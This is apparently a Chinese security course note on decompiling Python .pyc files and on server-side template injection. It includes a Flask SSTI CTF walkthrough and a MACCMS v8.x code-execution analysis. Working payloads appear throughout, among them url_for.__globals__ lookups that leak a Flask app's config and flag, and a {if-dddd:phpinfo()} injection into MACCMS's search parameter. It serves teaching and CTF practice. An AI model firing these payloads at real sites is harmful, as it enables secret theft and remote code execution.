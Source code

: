 

![1645091804267-dd3d4c68-4d84-4777-8d8d-bc91dc28d97c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131344852-1471873563.png)

![1645091863779-ea8337ee-4249-40a2-8575-97be9156cdbe.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131343107-1166024097.png)

```plain
#知识点：
1、PYC文件反编译
2、Python-Web-SSTI
3、SSTI模版注入利用分析
```

- #### PY反编译-PYC编译文件反编译源码

```plain
判断是不是python开发：
```

![1645091950341-3a79006c-c37c-46ad-b276-a81cd955b64e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131400636-1580455871.png)

```plain
pyc文件是py文件编译后生成的字节码文件(byte code)，pyc文件经过python解释器最终会生成机器码运行。因此pyc文件是可以跨平台部署的，类似Java的.class文件，一般py文件改变后，都会重新生成pyc文件。
真题附件：http://pan.baidu.com/s/1jGpB8DS
反编译平台：
https://tool.lu/pyc/ 
http://tools.bugscaner.com/decompyle/
反编译工具：https://github.com/wibiti/uncompyle2
一般在CTF上，真实上很难遇到。类似.class文件等，PHP可以直接打包，但是.net和.class，.pyc需要解密才能得到源代码。
```

- #### SSTI入门-原理&分类&检测&分析&利用

```plain
1、什么是SSTI？有什么漏洞危害？
漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。
2、如何判断检测SSTI漏洞的存在？
-输入的数据会被浏览器利用当前脚本语言调用解析执行
3、SSTI会产生在那些语言开发应用？
-见上图
4、SSTI安全问题在生产环境那里产生？
-存在模版引用的地方，如404错误页面展示
-存在数据接收引用的地方，如模版解析获取参数数据

报错的时候存在数据接受，把变量输入进去，解析模板的时候出现问题。

web应用是有很多模板，它是一个显示样式的东西。
切换样式后，数据一样都存在的。
样式代码：
 <div class="center-content error">
 <h1>Oops! That page doesn't exist.</h1>
 <h3>%s</h3>
 </div> 
%s是一个可控的值，留给数据库去操作，取出数据去显示，不能写死。可以写上payload，让代码进行执行。
运行程序，访问本地5000端口。
```





![1645092021555-37c5adbc-db9b-4802-8e4f-ef7e19c3a318.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131634026-356924496.png)

```plain
如果访问出错地址，
```

![1645092047174-a7cc351e-4725-4dc7-8cab-5d7fd5d42509.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131538186-1817852395.png)

```plain
源代码接受：
```

![1645092075561-e2f9bc7e-920b-4b6f-b0f8-c8fae300a9d5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131543562-1531643522.png)

```plain
构造报错：http://192.168.0.113:5000/njkncd?404_url=1
```

![1645092097027-73c470c1-1461-4534-8e26-fe8cf8604ccb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131657820-1927560441.png)

```plain
访问http://192.168.0.113:5000/njkncd?404_url={{2-2}} ：2-2被代入python执行。
```

![1645092151451-b90293a7-8429-4782-84ef-e2741033fb8a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131655115-835438083.png)

- #### SSTI考点-CTF靶场-[WesternCTF]shrine

```plain
1、源码分析SSTI考点
2、测试判断SSTI存在
3、分析代码过滤和FLAG存储
4、利用Flask两个函数利用获取
https://blog.csdn.net/houyanhua1/article/details/85470175
url_for()函数是用于构建操作指定函数的URL
get_flashed_messages()函数是获取传递过来的数据
/shrine/{{url_for.__globals__}}
/shrine/{{url_for.__globals__['current_app'].config}}
/shrine/{{get_flashed_messages.__globals__}}
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}
```

![1645092199955-ac197001-e35f-4a27-a895-0ba37d719f3f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131713866-1700480121.png)

```plain
发现关键性过滤
 s = s.replace('(', '').replace(')', '')
模板执行函数
render_template_string

判断存在：执行：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7B2-2%7D%7D
```

![1645092232099-fca9501d-cd5d-4b38-a48a-3acd6b963add.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714011-842379536.png)

```plain
• 获取当前脚本所有的全局变量：http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__%7D%7D
```

![1645092260044-c69a9eb5-e884-4756-aed4-6af4c5463345.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715136-1145043485.png)

```plain
发现当前正在使用的APP：
<class 'flask.helpers._PackageBoundObject'>, 'current_app': <Flask 'app'>
```

![1645092283644-d430e245-007a-4c84-86b1-01b99c14df8b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715239-1959675163.png)

```plain
http://b2014503-8276-429e-8d09-b1b38af83d43.node4.buuoj.cn:81/shrine/%7B%7Burl_for.__globals__['current_app'].config['FLAG']%7D%7D  得到flag
```

- #### SSTI考点-CMS源码-MACCMS_V8.X执行

```plain
Payload:index.php?m=vod-search&wd={if-dddd:phpinfo()}{endif-dddd}
1、根据wd传递的代码找指向文件
2、index->vod->tpl->ifex->eval
3、构造Payload带入ifex并绕过后执行

m=vod-search
wd={if-dddd:phpinfo()}{endif-dddd} 

知道payload，推出漏洞成因
m传参：
```

![1645092349876-6b5ef3c4-e42f-4797-b752-81f4954760e8.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714317-648667545.png)

```plain
定位到be函数：
```

![1645092372153-ce0d8404-42c9-4b49-a498-2b7c559880d6.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131715224-2098816609.png)

```plain
发现包含文件：
```

![1645092399091-18c86bde-3220-44e5-8916-9dcd4b3d8dfb.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714417-280163961.png)

```plain
输出$ac，发现是vod文件，然后找到vod.php文件
在vod.php发现wd传参：
```

![1645092426281-2752f567-94db-4aec-92f8-679def9c021e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714769-933300109.png)



```plain
跟踪tpl，指向ifex函数
跟踪ifex函数：
```

![1645092460751-bd037c66-f7ed-409a-b643-513eedca0fac.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912131714630-1614117682.png)

```plain
发现命令执行代码段
```